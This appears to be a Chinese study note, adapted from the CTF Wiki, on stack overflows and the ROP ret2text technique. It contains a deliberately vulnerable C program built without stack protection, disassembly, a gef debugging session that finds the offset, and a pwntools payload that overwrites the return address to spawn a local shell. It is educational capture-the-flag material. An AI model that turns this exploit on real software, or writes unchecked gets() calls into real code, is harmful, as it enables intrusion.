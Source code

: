 # 0.CTF-Wiki-ROP-
鸣谢Vancir,CTF Wiki.

01. Stack
 栈，FIFO，地址空间由高到低。  
 寄存器：ESP栈顶指针；EBP栈基指针。 
 ![image](https://user-images.githubusercontent.com/96966904/147868209-111ed65e-04a2-41fa-8af4-f2372b9e4cfe.png)  
 上图的EBP是caller，用于保存不需调用的临时数据；下面的EBP是callee，用于保存在调用中保留的值。  

02. Stack overflow(X86)  
 栈溢出，即向栈中变量写入的字，其字节数超出了该变量申请的字节数（例如：该变量总共申请2字节空间，非要往里面存32位int型数据）。  
 gets()函数不检查输入字符串的长度，而是以回车来判断输入是否结束，所以很容易导致栈溢出（例如：莫里斯蠕虫）  
 //PIE和ASLR机制留待学习补充，本页不考虑其存在。   
 代码段：  
   #include <stdio.h>  
   #include <string.h>  
   void success() { puts("You Hava already controlled it."); }  
   void vulnerable() {  
     char s[12];  
     gets(s);  
     puts(s);  
     return;  
   }  
   int main(int argc, char **argv) {  
     vulnerable();  
     return 0;  
   }  
     
 编译：  
  stack-example gcc -m32 -fno-stack-protector stack_example.c -o stack_example   
  stack_example.c: In function ‘vulnerable’:  
  stack_example.c:6:3: warning: implicit declaration of function ‘gets’ [-Wimplicit-function-declaration]  
     gets(s);  
     ^  
  /tmp/ccPU8rRA.o：在函数‘vulnerable’中：  
  stack_example.c:(.text+0x27): 警告： the `gets' function is dangerous and should not be used.  
  注意警告！  
    
  常见的危险函数：  
  输入：gets(),scanf(),vscanf,  
  输出：sprintf()  
  字符串：strcpy(),strcat(),bcopy  
    
  确定填充长度：目的计算我们要操作的地址与我们要覆盖的地址的距离，通过覆盖地址实现对程序的直接或间接控制。  
  
 03.ROP  
  随着NX（即No-eXecute不可执行，基本原理是将数据所在内存页标识为不可执行）保护开启，直接注入代码的方式不可行了。  
  ROP(Return Oriented Programming)是在栈缓冲区溢出的基础上，利用程序中已有的小片段 (gadgets) 来改变某些寄存器或者变量的值，从而控制程序的执行流程。  
    
  ROP攻击两个条件：1.程序存在溢出，并且可以控制返回地址；2.可以找到满足条件的 gadgets 以及相应 gadgets 的地址。  
    
  ret2text  
  即控制程序执行程序本身已有的的代码 (.text),或者是几段不相邻的程序的代码。  
  需要知道对应返回代码的位置，或者绕过系统保护找到对应代码的位置。  
  程序保护机制：  
    ret2text checksec ret2text  
    Arch:     i386-32-little  
    RELRO:    Partial RELRO  
    Stack:    No canary found  
    NX:       NX enabled  
    PIE:      No PIE (0x8048000)  
  易看出32位/仅开启NX机制。  
  源代码：  
    int __cdecl main(int argc, const char **argv, const char **envp){  
      int v4; // [sp+1Ch] [bp-64h]@1  
        
      setvbuf(stdout, 0, 2, 0);  
      setvbuf(_bss_start, 0, 1, 0);  
      puts("There is something amazing here, do you know anything?");  
      gets((char *)&v4);  
      printf("Maybe I will tell you next time !");  
      return 0;  
    }  
  程序地址及指令集：  
   .text:080485FD secure          proc near  
   .text:080485FD  
   .text:080485FD input           = dword ptr -10h  
   .text:080485FD secretcode      = dword ptr -0Ch  
   .text:080485FD  
   .text:080485FD                 push    ebp  
   .text:080485FE                 mov     ebp, esp  
   .text:08048600                 sub     esp, 28h  
   .text:08048603                 mov     dword ptr [esp], 0 ; timer  
   .text:0804860A                 call    _time  
   .text:0804860F                 mov     [esp], eax      ; seed  
   .text:08048612                 call    _srand  
   .text:08048617                 call    _rand  
   .text:0804861C                 mov     [ebp+secretcode], eax  
   .text:0804861F                 lea     eax, [ebp+input]  
   .text:08048622                 mov     [esp+4], eax  
   .text:08048626                 mov     dword ptr [esp], offset unk_8048760  
   .text:0804862D                 call    ___isoc99_scanf  
   .text:08048632                 mov     eax, [ebp+input]  
   .text:08048635                 cmp     eax, [ebp+secretcode]  
   .text:08048638                 jnz     short locret_8048646  
   .text:0804863A                 mov     dword ptr [esp], offset command ; "/bin/sh"  
   .text:08048641                 call    _system  
  看出调用了system（"/bin/sh"），我们要控制程序到0804863A，以得到系统shell。  
  然后构造payload，首先确定我们能够控制的内存的起始地址距离 main 函数的返回地址的字节数。  
   .text:080486A7                 lea     eax, [esp+1Ch]  
   .text:080486AB                 mov     [esp], eax      ; s  
   .text:080486AE                 call    _gets  
  找到mov esp，易看出是相对esp的索引，再进行调试，断点下到call处，查看esp，ebp。  
   gef➤  b *0x080486AE  
   Breakpoint 1 at 0x80486ae: file ret2text.c, line 24.  
   gef➤  r  
   There is something amazing here, do you know anything?  
  
   Breakpoint 1, 0x080486ae in main () at ret2text.c:24  
   24      gets(buf);  
   ───────────────────────────────────────────────────────────────────────[ registers ]────  
   $eax   : 0xffffcd5c  →  0x08048329  →  "__libc_start_main"  
   $ebx   : 0x00000000  
   $ecx   : 0xffffffff  
   $edx   : 0xf7faf870  →  0x00000000  
   $esp   : 0xffffcd40  →  0xffffcd5c  →  0x08048329  →  "__libc_start_main"  
   $ebp   : 0xffffcdc8  →  0x00000000  
   $esi   : 0xf7fae000  →  0x001b1db0  
   $edi   : 0xf7fae000  →  0x001b1db0  
   $eip   : 0x080486ae  →  <main+102> call 0x8048460 <gets@plt>  
  esp是ffffcd40，ebp是ffffcdc8，s相对于esp的索引是esp+1c，所以：  
  s 的地址为 0xffffcd5c，s 相对于 ebp 的偏移为 0x6c，s 相对于返回地址的偏移为 0x6c+4  
  最终得到payload：  
   ##!/usr/bin/env python  
   from pwn import *  
  
   sh = process('./ret2text')  
   target = 0x804863a  
   sh.sendline('A' * (0x6c+4) + p32(target))  
   sh.interactive()  
  
